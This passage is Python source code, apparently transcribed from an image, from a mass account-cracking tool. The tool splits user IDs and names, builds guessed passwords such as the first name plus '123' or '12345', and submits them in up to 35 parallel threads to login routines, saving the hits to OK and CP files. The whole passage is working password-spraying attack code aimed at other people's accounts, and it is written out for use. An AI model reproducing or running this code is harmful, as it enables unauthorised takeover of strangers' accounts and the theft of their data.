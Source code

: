    AYAN_ARAIN('\n\tCrack Processing...\n')
   AYAN_ARAIN('\n\tCrack Processing...\n\n');logo()
   with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):
    for yntkts in self.id:
     try:
      uid, name = yntkts.split('|')
      xz = name.split(' ')
      if len(xz) == 1:
       pwx = [name, xz[0]+"123", xz[0]+"12345"]
      elif len(xz) == 2:
       pwx = [name, xz[0]+"123", xz[0]+"12345"]
      elif len(xz) == 3:
       pwx = [name, xz[0]+"123", xz[0]+"12345"]
      elif len(xz) == 4:
       pwx = [name, xz[0]+"123", xz[0]+"12345"]
      else:
       pwx = [name, xz[0]+"123", xz[0]+"12345"]
      _ngentot_gratis_.submit(self.__api__, uid, pwx)
     except:
      pass
   os.remove(self.apk)
   hasil(ok,cp)
  elif yan in ('2', '02'):
   AYAN_ARAIN('\n[•] Result OK saved to OK.txt')
   AYAN_ARAIN('[•] Result CP saved to CP.txt')
   AYAN_ARAIN('\n\tCrack Processing...\n')
   AYAN_ARAIN('\n\tCrack Processing...\n\n');logo()
   with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):
    for yntkts in self.id:
     try:
      uid, name = yntkts.split('|')
      xz = name.split(' ')
      if len(xz) == 1:
       pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
      elif len(xz) == 2:
       pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
      elif len(xz) == 3:
       pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
      elif len(xz) == 4:
       pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
      else:
       pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
      _ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
     except:
      pass
   os.remove(self.apk)
   hasil(ok,cp)
  elif yan in ('3', '03'):
   
   AYAN_ARAIN('\n\tCrack Processing...\n\n');logo()
   with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):
    for yntkts in self.id:
     try:
      uid, name = yntkts.split('|')
      xz = name.split(' ')
      if len(xz) == 1:
       pwx = [name, xz[0]+"123", xz[0]+"12345"]
      elif len(xz) == 2:
       pwx = [name, xz[0]+"123", xz[0]+"12345"]
      elif len(xz) == 3:
       pwx = [name, xz[0]+"123", xz[0]+"12345"]
      elif len(xz) == 4:
       pwx = [name, xz[0]+"123", xz[0]+"12345"]
      else: